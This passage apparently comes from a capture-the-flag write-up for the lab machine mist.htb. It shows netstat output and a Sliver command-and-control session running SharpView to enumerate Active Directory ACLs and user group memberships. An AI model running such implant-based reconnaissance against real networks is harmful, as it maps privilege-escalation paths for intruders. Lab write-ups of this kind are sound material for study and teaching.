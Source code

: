 ```
 tcp        0.0.0.0:49664         0.0.0.0:0         LISTEN   660/lsass.exe    
 tcp        0.0.0.0:49665         0.0.0.0:0         LISTEN   540/wininit.exe  
 tcp        0.0.0.0:49666         0.0.0.0:0         LISTEN   408/svchost.exe  
 tcp        0.0.0.0:49667         0.0.0.0:0         LISTEN   660/lsass.exe    
 tcp        0.0.0.0:49668         0.0.0.0:0         LISTEN   1100/svchost.exe 
 tcp        0.0.0.0:49717         0.0.0.0:0         LISTEN   648/services.exe 
 tcp        192.168.100.101:139   0.0.0.0:0         LISTEN   4/System 
```

```
sliver (CAUTIOUS_WEDGE) > sharpview find-interestingdomainacl
...

ObjectDN                       : CN=svc_cabackup,CN=Users,DC=mist,DC=htb
ObjectAceFlags                 : ObjectAceTypePresent
ObjectAceType                  : 5b47d60f-6090-40b2-9f37-2a4de88f3063
BinaryLength                   : 56
AceQualifier                   : AccessAllowed
IsCallback                     : False
OpaqueLength                   : 0
AccessMask                     : 48
SecurityIdentifier             : S-1-5-21-1045809509-3006658589-2426055941-1132
AceType                        : AccessAllowedObject
AceFlags                       : None
IsInherited                    : False
InheritanceFlags               : None
PropagationFlags               : None
AuditFlags                     : None
ActiveDirectoryRights          : ReadProperty, WriteProperty
IdentityReferenceName          : Certificate Services
IdentityReferenceDomain        : mist.htb
IdentityReferenceDN            : CN=Certificate Services,CN=Users,DC=mist,DC=htb
```

```
sliver (CAUTIOUS_WEDGE) > sharpview get-domainuser -Properties distinguishedname,memberof

[*] sharpview output:
[Get-DomainSearcher] search base: LDAP://DC=MIST,DC=HTB
[Get-DomainUser] filter string: (&(samAccountType=805306368))
distinguishedname              : CN=Administrator,CN=Users,DC=mist,DC=htb
memberof                       : {CN=Group Policy Creator Owners,CN=Users,DC=mist,DC=htb, CN=Domain Admins,CN=Users,DC=mist,DC=htb, CN=Enterprise Admins,CN=Users,DC=mist,DC=htb, CN=Schema Admins,CN=Users,DC=mist,DC=htb, CN=Administrators,CN=Builtin,DC=mist,DC=htb}

distinguishedname              : CN=Guest,CN=Users,DC=mist,DC=htb
memberof                       : {CN=Guests,CN=Builtin,DC=mist,DC=htb}

distinguishedname              : CN=krbtgt,CN=Users,DC=mist,DC=htb
memberof                       : {CN=Denied RODC Password Replication Group,CN=Users,DC=mist,DC=htb}

distinguishedname              : CN=Sharon.Mullard,CN=Users,DC=mist,DC=htb

distinguishedname              : CN=Brandon.Keywarp,CN=Users,DC=mist,DC=htb

distinguishedname              : CN=Florence.Brown,CN=Users,DC=mist,DC=htb

distinguishedname              : CN=Jonathan.Clinton,CN=Users,DC=mist,DC=htb

distinguishedname              : CN=Markus.Roheb,CN=Users,DC=mist,DC=htb

distinguishedname              : CN=Shivangi.Sumpta,CN=Users,DC=mist,DC=htb

```